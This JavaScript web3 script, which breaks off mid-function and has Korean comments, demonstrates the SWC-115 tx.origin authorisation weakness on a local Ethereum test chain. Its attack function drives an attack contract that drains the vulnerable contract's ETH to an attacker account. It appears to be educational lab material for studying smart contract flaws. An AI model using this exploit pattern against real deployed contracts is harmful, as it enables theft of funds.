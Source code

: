 ```jsx
const Web3 = require('web3');
const web3 = new Web3(new Web3.providers.HttpProvider("http://127.0.0.1:9545"));
const swc115_json = require("../build/contracts/swc115.json")
const attack_json = require("../build/contracts/attack.json")
const swc115_abi = swc115_json['abi'];
const attack_abi = attack_json['abi'];
const _swc115 = new web3.eth.Contract(swc115_abi, "0x58891eFd502dCFB5AF4a04ff3FaFcdE518fa6FB6");
const _attack = new web3.eth.Contract(attack_abi, "0xA42bCDc4B32b61425b3d8a3c3059060cB388B8cd");

async function swc115(){
    //해당 컨트랙트의 최초 tx.origin 주소 
    const account0 = (await web3.eth.getAccounts())[0];
    //이더 값을 받는 계약 주소
    const account1 = (await web3.eth.getAccounts())[1];

    await _swc115.methods.contract_addr(account0).send({from:account0,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )
    //tx.origin==owner
    await _swc115.methods.withdrawAll_txorigin(account1).send({from:account0,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )
    //msg.sender==owner
    /*await _swc115.methods.withdrawAll_sender(account1).send({from:account0,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )*/

}

//swc115 컨트랙트를 공격, eth를 탈취
//attacker addr = 0xFB16d5921909b1207219CD38D6B367B20a91204E
async function attack(){   
        const account0 = (await web3.eth.getAccounts())[0]; //contract owner
        const attacker = (await web3.eth.getAccounts())[2]; //attacker addr
        //const attacker = (await web3.eth.getAccounts())[2];
    //set함수에 들어가는 주소는, 공격당할 컨트랙트의 주소 값을 입력
    await _attack.methods.set("0x58891eFd502dCFB5AF4a04ff3FaFcdE518fa6FB6",attacker).send({from:account0,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )
    //txorigin==owner
    await _attack.methods.attack_contract().send({from:account0,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
        }
    )
    //msg.sender==owner
    /*await _attack.methods.attack_contract2().send({from:account0,gas:100000,gasPrice:'100000'}).then(
        function(result){
            console.log(result);
```